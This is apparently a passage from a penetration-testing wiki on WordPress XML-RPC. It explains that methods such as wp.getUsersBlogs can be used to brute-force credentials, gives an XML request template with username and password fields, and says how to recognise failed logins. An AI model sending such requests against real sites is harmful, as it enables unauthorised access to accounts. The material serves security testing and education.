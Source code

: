 **Credentials Bruteforce**

**`wp.getUserBlogs`**, **`wp.getCategories`** or **`metaWeblog.getUsersBlogs`** are some of the methods that can be used to brute-force credentials. If you can find any of them you can send something like:

```html
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>admin</value></param>
<param><value>pass</value></param>
</params>
</methodCall>
```

The message _"Incorrect username or password"_ inside a 200 code response should appear if the credentials aren't valid.

![](<../../images/image (107) (2) (2) (2) (2) (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (4) (1).png>)

![](<../../images/image (721).png>)
